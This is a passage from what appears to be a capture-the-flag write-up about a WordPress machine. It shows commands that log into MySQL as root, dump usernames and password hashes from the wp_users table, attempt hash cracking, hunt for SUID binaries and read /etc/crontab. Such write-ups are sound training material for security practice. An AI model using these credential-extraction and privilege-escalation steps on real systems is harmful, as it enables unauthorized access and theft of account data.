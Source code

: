 
Let's try logging into the mysql database using the following command :
```bash
mysql -u root -p -h localhost 
```

We get logged in . Now let's list the databases :

```MySQL
show databases;
```

![[Pasted image 20240102181415.png]]

Let's get into the wordpress database and list the tables : 
```MySQL
SHOW tables;
```

![[Pasted image 20240102181524.png]]

The Table `wp_users` seems interesting. Let's see what entries it contains :

```MySQL
describe wp_users;
```

![[Pasted image 20240102181623.png]]

Cool! Let's extract out  the usernames and passwords from the table :
```SQL
SELECT user_login,user_pass FROM wp_users;
```

![[Pasted image 20240102181838.png]]

Here we have the username and the hashed password for the `j@m3s` user.
Let's see if we can crack the hash using hashcat

The hash doesn't seem  crackable. We have hit a roadblock ☹️.
Let's try finding interesting SUID binaries :
```bash
find / -type f -perm 4000 2>/dev/null
```

Output :

![[Pasted image 20240102182908.png]]

No binary seems interesting. Let's take a look at the crontabs running.

```bash
cat /etc/crontab
```

Output: 

![[Pasted image 20240102183011.png]]
